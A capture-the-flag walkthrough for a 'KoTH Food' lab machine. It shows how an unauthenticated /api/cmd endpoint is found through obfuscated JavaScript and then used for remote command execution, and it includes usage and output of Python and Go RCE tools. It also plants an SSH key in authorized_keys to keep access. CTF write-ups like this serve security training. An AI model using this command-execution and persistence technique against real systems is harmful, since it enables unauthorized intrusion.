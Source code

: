 # KoTH Food CTF

## Monitor

When navigating to `$TARGET:15065` in a web browser, you are presented with an "Under Construction" message with seemingly nothing that can be done. If you enumerate this location, however, you will discover an endpoint `/monitor` that you can navigate to. 

Gobuster Command:

```bash
gobuster dir -u http://$TARGET:15065 -w <wordlist> -t 50
```

Output:

```bash
===============================================================
/monitor              (Status: 301) [Size: 0] [--> monitor/]
===============================================================
```

Upon arriving at the `/monitor` page, you are presented with an input box that will ping a given IP address.  Putting in `127.0.0.1`, we can see the output of the command is rendered in a `<div>` element. The output looks exactly like what you would expect if you ran the `ping` command in your terminal, indicating we may be able to execute arbitrary commands on the target. When we try to append command line commands to the IP address, however we get an `IP address invalid` message returned to us. It looks like this input box is sanitized or filtered in some way to prevent RCE. 

While RCE via the input may not be likely, it does not mean this page is not vulnerable. The next step is to look at the page source and the network traffic when we send a legitimate request. When looking at the page source, we find `main.js` imported. Pulling down `main.js` we find it obfuscated; we will look more at this later. Observing the network traffic, we see the request is sent to `cmd` with the body being a terminal command (`ping -c 3 <ipAddress>`). This brings us closer to confirming RCE; all we have to do now is find out the full address of the endpoint this request is being sent to.

Looking at the obfuscated JavaScript code pulled down, we find an array at the top with base64 encoded values, and oddly named functions. Base64 decoding the values in the top array, we find they are a mix of dictionary keys and other values. Scrolling down and scanning the rest of the code, we find a `POST` request to an `api/cmd` endpoint. This is what we are interested in. This `api/cmd` endpoint is where the `ping -c 3 <ipAddress>` command was being sent when we submitted the form on `/monitor`. 

To look for the `api/cmd` endpoint, we can check two likely locations: `/monitor/api/cmd` and `/api/cmd`. When we `POST` to `/monitor/api/cmd` we get a `404` status code returned. When we `POST` to `/api/cmd` we get a `200` status code returned. The endpoint is, therefore, located at `http://$TARGET/api/cmd`. 

Now that we have an endpoint to target, we can begin testing commands:

```python
import requests
target = "http://<targetip>:15065/api/cmd"
resp = requests.post(target, "whoami".encode())
```

The output of the above command reveals the username of the user hosting the site, and confirms the ability to remotely execute arbitrary code on the target machine. To make this less manual, I created [monitor_rce](monitor_rce.py). This will automatically format and execute a command given by the user and print the output to `STDOUT`.  Using eith the manual method or [monitor_rce](monitor_rce.py), it is possible to upload a reverse shell, gain a meterpreter session, etc.

One we have a foothold on the target, we can begin to explore and search for a flag. When you run `ls -la ~` to view the current user's home directory, there is a file that is called `flag`. When we try to `cat flag`, however, we get a permission denied error.  To read this, we must elevate our privilege. 

First, to gain more stability with out shell, we can create an SSH key pair and SSH into the target as `bread` by creating an `.ssh` directory with an `authorized_keys` file in `bread`'s home directory.

Commands:

```bash
mkdir /home/bread/.ssh
touch /home/bread/.ssh/authorized_keys
```

After the `authorized_keys` file is created, we can generate an SSH key pair on our attack machine and place the contents of `<our_key_name>.pub` in `authorized_keys`. From there we can SSH into the box as bread and continue our attack.

Command (On Attack Machine):

```bash
ssh-keygen

... <enter info as prompted> ...

cat <your_key_name>.pub

... <copy contents to authorized_keys on target> ...

ssh bread@$TARGET -i <your_key_name>
```


### Monitor_RCE (Python)

To successfully execute commands using [monitor_rce](monitor_rce.py), you must pass in the command as a string and give the program the target IP address and port number. An example of how to run the program is below.

Command:

```bash
./monitor_rce.py $TARGET 15065 -c "ls -la ~"
```

The above command will list all the contents of the user's home directory.

Output:

```bash
============================================================
[i] Target IP: 10.10.96.190
[i] Target Port: 15065
[i] Command: "ls -la ~"
============================================================

============================================================
                           Output                           
============================================================
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources

============================================================
[+] command successfully executed
```

### Monitor RCE (Golang)

The Golang RCE exploit for the monitor page is very similar to the Python3 exploit. It conducts the same attack, POSTing to `/api/cmd` and printing the command output to `STDOUT`.  There are two ways the attacker can execute the Golang program: 1) using go's `run` command or 2) compiling it into a binary and running the binary.

Go Run:

```bash
go run monitor_rce.go -d $TARGET -p 15065 -c "<command>"
```

Compilation And Execution:

```bash
go build monitor_rce.go
./monitor_rce -d $TARGET -p 15065 -c "<command>"
```

*Note: If the command's execution time exceeds the Client's timeout, no output will be returned; instead, a the message `timeout occurred. assuming reverse shell or long running command` will appear. To adjust the timeout of the Client, modify the initialization parameter "Timeout: 10 \* time.Second" when the Client gets initialized in `main` .*

## PrivEsc (Bread --> Ramen)